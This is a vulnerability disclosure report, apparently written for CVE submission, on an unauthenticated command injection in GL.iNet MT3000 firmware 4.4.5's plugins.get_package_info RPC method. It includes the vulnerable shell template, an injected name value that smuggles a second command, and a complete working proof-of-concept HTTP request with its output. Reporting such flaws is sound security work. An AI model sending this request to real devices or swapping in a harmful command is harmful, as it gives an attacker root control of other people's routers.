

# GL.iNet MT3000 `plugins.get_package_info` Pre-Auth Command Injection to Root RCE

- Report date: 2026-04-29
- Reporter: coconut652-7
- CVE ID: TBD
- Vendor: GL.iNet
- Product: GL.iNet MT3000 / GL-MT3000
- Confirmed affected firmware: `4.4.5`
- Target used for live validation: `192.168.8.1`
- Affected component: `/usr/lib/oui-httpd/rpc/plugins.so`
- Exposed endpoint: `POST /cgi-bin/glc`
- Vulnerable RPC object/method: `plugins.get_package_info`
- Authentication required: No

---

## MITRE/CVE Submission Summary

An unauthenticated command injection vulnerability exists in the GL.iNet MT3000 firmware `4.4.5` backend RPC method `plugins.get_package_info`, reachable through `POST /cgi-bin/glc`. The method reads the attacker-controlled JSON field `args.name` and interpolates it into an `opkg info` shell command without quoting or escaping before passing the command to `system()`. A remote attacker with network access to the management interface can execute arbitrary commands as root. The supplied validation uses a low-impact proof command, `ls / > /www/glc_get_package_info_ls_proof_20260507.txt`, and retrieves the generated file over HTTP.

Suggested CVE description:

```text
GL.iNet MT3000 firmware 4.4.5 contains an unauthenticated command injection vulnerability in /usr/lib/oui-httpd/rpc/plugins.so, reachable via POST /cgi-bin/glc with object=plugins and method=get_package_info. The args.name parameter is inserted into an opkg info shell command without quoting or escaping and executed with system(), allowing a remote unauthenticated attacker to execute arbitrary commands as root.
```

Suggested CWE mappings:

- CWE-78: Improper Neutralization of Special Elements used in an OS Command
- CWE-306: Missing Authentication for Critical Function

Suggested severity:

- Critical
- Network attack vector
- No authentication required
- No user interaction required
- Arbitrary command execution as root

Affected versions:

- Confirmed: GL.iNet MT3000 firmware `4.4.5`
- Potentially affected: other versions containing the same vulnerable `plugins.so` implementation, not exhaustively tested

---

## Attack Surface

### HTTP entry point

```http
POST /cgi-bin/glc
Content-Type: application/json
```

### Authentication state

- No `Admin-Token` required
- No SID required
- No authenticated `/rpc` session required
- No user interaction required

### Privileged backend object

```json
{
  "object": "plugins",
  "method": "get_package_info",
  "args": {
    "name": "..."
  }
}
```

The `/cgi-bin/glc` endpoint dispatches the unauthenticated request into the privileged plugin-management backend object implemented by `/usr/lib/oui-httpd/rpc/plugins.so`.

---

## Root Cause

The `plugins.get_package_info` method builds a shell command using an attacker-controlled package name and passes the result to `system()`.

Recovered command template from the live `plugins.so`:

```sh
%s info %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync
```

Observed `opkg` prefix:

```sh
opkg --force-overwrite --nocase
```

Equivalent effective command:

```sh
opkg --force-overwrite --nocase info <ATTACKER_NAME> >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync
```

The second `%s` is populated from the JSON `args.name` field. That value is inserted:

- without shell quoting
- without shell escaping
- without metacharacter filtering sufficient to prevent command injection

As a result, shell metacharacters supplied in `args.name` are interpreted by `/bin/sh`.

Example injected value:

```text
abc;ls / > /www/glc_get_package_info_ls_proof_20260507.txt;#
```

Resulting shell interpretation:

```sh
opkg --force-overwrite --nocase info abc;ls / > /www/glc_get_package_info_ls_proof_20260507.txt;# >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync
```

The `;` terminates the intended `opkg info` command, and `#` comments out the original redirection and trailing `sync`.

---

## Reverse Engineering Evidence

The live `plugins.so` module from firmware `4.4.5` was loaded.

Critical behavior observed in `plugins.get_package_info`:

1. Parse JSON request.
2. Fetch the `name` value from `args`.
3. Format an `opkg info` shell command with `sprintf`.
4. Execute the formatted command with `system()`.
5. Read `/tmp/opkg.stderr`.
6. Read `/tmp/opkg.stdout`.

Relevant strings recovered from the live binary:

- `"%s info %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync"`
- `"cat /tmp/opkg.stderr"`
- `"cat /tmp/opkg.stdout"`
- `"opkg --force-overwrite --nocase"`

These strings match the runtime behavior observed during exploitation.

---

## Live Exploitation Evidence

All validation was performed against a live GL.iNet MT3000 target at:

```text
192.168.8.1
```

### Low-impact file-write proof with `ls`

Injected `args.name`:

```text
abc;ls / > /www/glc_get_package_info_ls_proof_20260507.txt;#
```

Follow-up request:

```http
GET /glc_get_package_info_ls_proof_20260507.txt
```

Observed response body contained a root-directory listing from the target device, including entries such as:

```text
bin
etc
lib
overlay
proc
tmp
usr
www
```


This confirms attacker-controlled shell execution and write access to the web root without using a reverse shell or interactive callback.

The proof file path was chosen under `/www` only so the result could be fetched through the normal web server for non-interactive validation.

---

## Proof-of-Concept Request

Minimal HTTP request shape:

```http
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json

{
  "object": "plugins",
  "method": "get_package_info",
  "args": {
    "name": "abc;ls / > /www/glc_get_package_info_ls_proof_20260507.txt;#"
  }
}
```

---

## Impact

An unauthenticated attacker with network access to the management interface can:

- execute arbitrary shell commands as root
- write files under the web root
- read and modify system files
- tamper with firewall, services, or startup scripts
- stage second-phase payloads from LAN or the internet
- implant persistence

Security properties broken:

- authentication boundary
- administrative authorization boundary
- package-management backend integrity
- full device trust

---

## Validation Conditions Confirmed

The low-impact validation requires only common target-side components:

- `/bin/sh` for command execution through `system()`
- `ls` for producing a directory listing
- `/www` as a web-served output directory

---

## Disclosure Notes

This report is written as an independent CVE evidence package for the `plugins.get_package_info` sink.
